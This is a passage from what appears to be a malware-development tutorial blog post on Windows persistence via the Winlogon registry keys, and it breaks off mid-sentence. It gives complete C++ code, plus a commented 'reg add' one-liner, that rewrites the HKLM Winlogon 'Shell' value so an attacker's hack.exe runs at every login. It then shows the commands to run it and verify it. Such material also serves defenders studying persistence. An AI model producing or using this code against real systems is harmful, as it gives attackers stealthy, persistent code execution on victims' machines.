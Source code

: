 As you can see in both cases, the malware will be executed during Windows authentication.    

But there are interesting caveat. For example if we update registry key as following logic:    

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  const char* sh = "explorer.exe,Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

That is, our malware is located along the path: `Z:\...\hack.exe` instead of `C:\Windows\System32\hack.exe`.    

Run:

```powershell
.\pers.exe
req query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
```

![pers](/assets/images/58/2022-06-12_14-26.png){:class="img-responsive"}    

And relogin:

![pers](/assets/images/58/2022-06-12_14-26_1.png){:class="img-responsive"}    

![pers](/assets/images/58/2022-06-12_14-27.png){:class="img-responsive"}    

Checking properties of `hack.exe`:
